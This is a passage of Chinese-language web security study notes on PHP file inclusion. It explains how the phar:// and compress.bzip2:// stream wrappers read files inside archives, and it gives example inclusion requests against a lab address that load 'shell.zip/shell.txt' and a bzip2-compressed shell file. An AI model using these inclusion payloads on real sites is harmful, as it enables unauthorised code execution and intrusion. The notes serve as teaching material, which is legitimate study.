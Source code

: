 ![zip伪协议](../../../../我的坚果云/网安/images/9-07-morning/zip伪协议.png)

##### f. phar://协议

1. 用途

   * 读取压缩包内的文件

2. 使用条件

   * allow_url_fopen = off
   * allow_url_include = off
   * 知道**相对路径或绝对路径**
   * php版本 > 5.3

3. 使用方法

   ```php
   [URL]?file=phar://D:/phpStudy/WWW/fileinclude/test.zip/phpinfo.txt
   	or
   [URL]?file=phar://test.zip/phpinfo.txt
   ```

4. 案例

   ```php
   http://192.168.172.150/include.php?file=phar://shell.zip/shell.txt
   ```

##### g. compress.bzip2://

1. 用途

   * 读取压缩包内的文件

2. 使用条件

   * allow_url_fopen = on/off
   * allow_url_include = on/off
   * 知道**相对路径或绝对路径**

3. 使用方法

   * 压缩bzip2文件的方法：

     **Bzip2 -k shell.txt**

   ```php
   [URL]?file=compress.bzip2://shell.txt.bz2
   ```

4. 案例

   ```php
   http://192.168.172.150/include.php?file=compress.bzip2://shell.txt.bz2
   ```

![compress：bzip2伪协议](../../../../我的坚果云/网安/images/9-07-morning/compress：bzip2伪协议.png)

##### h. compress.zlib://
